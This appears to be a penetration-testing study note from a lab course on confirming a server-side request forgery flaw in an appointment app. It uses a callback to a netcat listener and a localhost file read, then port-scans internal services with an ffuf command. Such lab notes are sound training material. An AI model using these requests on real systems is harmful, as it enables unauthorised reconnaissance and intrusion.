 ```yaml
---
title: b-Identify SSRF
draft: false
tags:
  - ssrf
  - ssrf-identify
  - ffuf
---
```

## Confirm SSRF

> Assume there is a web app with a functionality to schedule appointments.

When checking the data availability for appointment, following request is being used:

`dateserver=http://dateserver.com/availability.php&date=2024-01-01`

This means the web server is fetching the availability information from a separate system determined by the URL passed in the POST parameter.

We can confirm SSRF by pointing dateserver towards our netcat listener as such:

`dateserver=http://my-ip:8000/ssrf&date=2024-01-01`

We get a incoming connection:

```shell-session
jadu101@htb[/htb]$ nc -lnvp 8000

listening on [any] 8000 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 38782
GET /ssrf HTTP/1.1
Host: 172.17.0.1:8000
Accept: */*
```

We can check if SSRF is blind or not by trying to read `index.php`:

`dateserver=http://127.0.0.1/index.php&date=2024-01-01`

If the above displays the content of index.php, we know that the SSRF is not blind.

## Enumerate System

We can use SSRF to port scan on the system. 

`dateserver=http://127.0.0.1:80&date=2024-01-01`

If the response to above request is something like `Error` or `Fail`, we can know that the port is probably closed.

We can automate this using `ffuf`.

First, create a list of 10,000 ports:

```shell-session
jadu101@htb[/htb]$ seq 1 10000 > ports.txt
```

Now use `ffuf` to fuzz all open ports by filtering out responses containing error message we identified earlier:

```shell-session
jadu101@htb[/htb]$ ffuf -w ./ports.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr "Failed to connect to"

<SNIP>

[Status: 200, Size: 45, Words: 7, Lines: 1, Duration: 0ms]
    * FUZZ: 3306
[Status: 200, Size: 8285, Words: 2151, Lines: 158, Duration: 338ms]
    * FUZZ: 80
```

Results shows port 3306 is open.

